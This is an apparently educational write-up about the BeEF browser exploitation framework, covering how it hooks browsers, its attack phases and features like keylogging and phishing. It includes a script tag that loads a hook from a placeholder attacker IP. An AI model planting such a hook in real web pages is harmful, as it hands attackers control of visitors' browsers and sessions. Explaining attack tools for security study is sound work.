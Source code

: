 # BeEF Framework
## Introduction
According to [1][1] around 45% of Web users are not updating to the latest versions of their browsers with the up-to-date security measures, which empowers various tools to exploit their browsers and vulnerabilities. BeEF which is the short term of Browser Exploitation Framework was initiated in 2006 by Wade Alcorn is an open-source hacking and penetration testing tool, mainly to perform web browser attacks and exploit vulnerabilities using a capable and simple user interface [2][2]. 
## What Does BeEF Do?
BeEF evades network security measures and anti-virus applications in the host system by exploiting vulnerabilities in web browsers [3][3]. It focuses on taking advantage of a web browser’s vulnerabilities to hijack and take control of the target. By “hooking” one or many number of browsers, the attacker starts launching various type of commands that attacks the browser and further attacks the system [3][3]. In order to perform an attack, the attacker generates a customized URL that includes a JavaScript hook and forwards it to the targeted user using emails, social network links and many other possible ways to open it [4]. 
```javascript
<script src="http://{ATTACKER’S IP}:3000/hook.js" type="text/javascript"></script>
```
Once an unaware user opens the received URL, the browser is hooked without noticing any unusual activity while the attacker accesses the user’s session. Hence, the attacker will have access to the targeted browser and will be able to launch MITM attacks, Social Engineering attacks, Phishing, Cookie Hijacking, Webcam Enabling, Information Gathering, and many other commands that may further attack the host system.
## How Does It Work?
When the attacker starts BeEF, the User Interface and Communication Channel are started.

![alt text](https://github.com/yazan828/Test/blob/main/BeEFUI.PNG "BeEF User Interface")

The method BeEF follows to hook web browsers consists of three phases Initiating, Retaining, and Attacking. During initiating, the user opens the received URL and the browser executes the hook that contains instructions to initiate a communication channel between the hooked browser and the attacker. In the retaining phase, an active communication channel is established to start the attacking phase. Using Communication Servers, the attacker is able to communicate with the hooked browsers via HTTP. Lastly, after hooking the browser and establishing an active channel for communication, the attacker can start delivering JavaScript payloads and sending various commands through the User Interface. BeEF offers a variety set of features such as [5][5],[6][6]: 
* Key logging
* Using hooked browser as proxy
* Many social engineering techniques
* Integration with Metasploit Framework 
* Phishing attacks

![alt text](https://github.com/yazan828/Test/blob/main/Command.PNG "Various BeEF Commands")

![alt text](https://github.com/yazan828/Test/blob/main/Diagram.png "BeEF Attack Scenario [5]")

The figure above demonstrates an overview of a client attack using BeEF by injecting the script into the hook and forward it to the target. 
## Who Uses BeEF & Why Is It Useful?
The primary purpose of BeEF is to allow qualified penetration testers to evaluate the security measures of web browsers and examine exploitability by simulating the attacks. However, BeEF is also used by hackers who are either targeting specific victims or spreading hooks through the network to gather sensitive information without consent. Plus, BeEF is continuously being used for educational purposes due to its simplicity and strong capability [3][3]. 


[1]: https://writingbros.com/essay-examples/an-in-depth-look-at-browser-exploitation-using-beef-framework/
[2]: https://github.com/beefproject/beef/wiki#overview
[3]: https://www.researchgate.net/publication/322398374_Web_Browser_Attack_Using_BeEF_Framework
[4]: https://www.secureideas.com/blog/2013/06/getting-started-with-beef-browser.html#:~:text=BeEF%2C%20the%20Browser%20Exploitation%20Framework,environment%2C%20bypassing%20the%20hardened%20perimeter.
[5]: https://ro.ecu.edu.au/cgi/viewcontent.cgi?article=1131&context=adf
[6]: https://github.com/beefproject/beef/wiki/How-BeEF-Works
